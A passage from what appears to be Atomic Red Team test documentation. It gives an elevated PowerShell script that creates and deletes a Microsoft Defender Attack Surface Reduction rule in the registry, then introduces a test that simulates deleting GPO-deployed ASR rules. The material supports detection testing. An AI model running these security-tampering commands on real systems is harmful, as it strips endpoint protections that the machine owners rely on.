 
**auto_generated_guid:** eea0a6c2-84e9-4e8c-a242-ac585d28d0d1






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$registryPath = "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender\Policy Manager"

if (-not (Test-Path $registryPath)) {
  New-Item -Path $registryPath -Force
  Write-Host "Registry key created: $registryPath"
}

$registryValueName = "ASRRules"

if (Test-Path "$registryPath\$registryValueName") {
  Remove-ItemProperty -Path $registryPath -Name $registryValueName
  Write-Host "Registry value deleted: $registryValueName"
} else {
  New-ItemProperty -Path $registryPath -Name $registryValueName -PropertyType String -Value "36190899-1602-49e8-8b27-eb1d0a1ce869=1" -Force
  Write-Host "Registry value created: $registryValueName"
}


Remove-ItemProperty -Path $registryPath -Name $registryValueName
Write-Host "Registry value deleted: $registryValueName"
```






<br/>
<br/>

## Atomic Test #52 - Delete Microsoft Defender ASR Rules - GPO
This test simulates the deletion of the ASR rules loaded by Microsoft Defender using the registry. Depending on the deployment, rules can be pushed either using GPO or InTune, This test simulates a GPO-based rules deployment.

**Supported Platforms:** Windows


**auto_generated_guid:** 0e7b8a4b-2ca5-4743-a9f9-96051abb6e50






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 
